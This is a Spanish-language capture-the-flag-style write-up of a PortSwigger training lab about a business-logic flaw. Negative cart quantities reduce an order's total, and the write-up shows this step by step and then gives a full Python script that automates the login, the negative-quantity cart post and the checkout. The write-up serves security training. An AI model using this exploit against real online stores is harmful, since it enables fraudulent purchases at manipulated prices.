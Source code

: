 ```yaml
---
title: "02 High-level logic vulnerability"
collection: publications
category: portswigger
permalink: publications/Business logic/02_High-level logic vulnerability
excerpt: 'Este laboratorio no valida adecuadamente la entrada del usuario. Se puede aprovechar un fallo lógico en su flujo de trabajo de compras para comprar artículos por un precio no previsto.'
date: 2024-12-09
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'High-level logic vulnerability'
---
```


![logo]({{site.url}}/images/Business logic/Business-logic-lab-02/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Business logic/Business-logic-lab-02/descripcion.png)

## Objetivo del laboratorio

Para resolver este laboratorio, compra una "Lightweight l33t leather jacket" a un precio mas economico.

## Analisis

Nos logueamos en la pagina web y realizamos el flujo como si fueramos a comprar un articulo. Vemos que tenemos un saldo de $100 y la chaqueta nos cuesta 1337 no nos alcanza para comprarla.

![Conf1]({{site.url}}/images/Business logic/Business-logic-lab-02/conf1.png)

Agregamos otro producto al carrito y si le colocamos valores negativos a la cantidad, disminuye el precio total.

![Conf2]({{site.url}}/images/Business logic/Business-logic-lab-02/conf2.png)

Seguimos disminuyendo la cantidad para bajar el valor total, y vemos que ya podemos adquirirlo.

![Conf3]({{site.url}}/images/Business logic/Business-logic-lab-02/conf3.png)

## Aprobado

![Aprobado]({{site.url}}/images/Business logic/Business-logic-lab-02/aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re 

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def get_csrf_token(s, url):
    r = s.get(url, verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input", {'name': 'csrf'})['value']
    return csrf


def buy_item(s, url):

    # Retrieve the CSRF token
    login_url = url + "/login"
    csrf_token = get_csrf_token(s, login_url)

    # Login as user
    print("(+) Logging in as the wiener user...")
    data_login = {"csrf": csrf_token, "username": "wiener", "password": "peter"}
    r = s.post(login_url, data=data_login, verify=False, proxies=proxies)
    res = r.text
    if "Log out" in res:
        print("(+) Successfully logged in as the wiener user...")

        # Add negative items
        cart_url = url + "/cart"
        data_cart = {"productId": "20", "redir": "PRODUCT", "quantity": "-16"}
        r = s.post(cart_url, data=data_cart, verify=False, proxies=proxies)

        # Add Jacket to cart
        cart_url = url + "/cart"
        data_cart = {"productId": "1", "redir": "PRODUCT", "quantity": "1"}
        r = s.post(cart_url, data=data_cart, verify=False, proxies=proxies)

        # Checkout
        checkout_url = url + "/cart/checkout"
        csrf_token = get_csrf_token(s, cart_url)
        data_checkout = {"csrf": csrf_token}
        r = s.post(checkout_url, data=data_checkout, verify=False, proxies=proxies)

        # Check if we solved the lab
        if "Congratulations" in r.text:
            print("(+) Successfully exploited the business logic vulnerability.")
        else:
            print("(-) Could not exploit the vulnerability.")
            sys.exit(-1)

    else:
        print("(-) Could not login as the user.")


def main():
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    s = requests.Session()
    url =sys.argv[1]
    buy_item(s, url)

if __name__ == "__main__":
    main()
```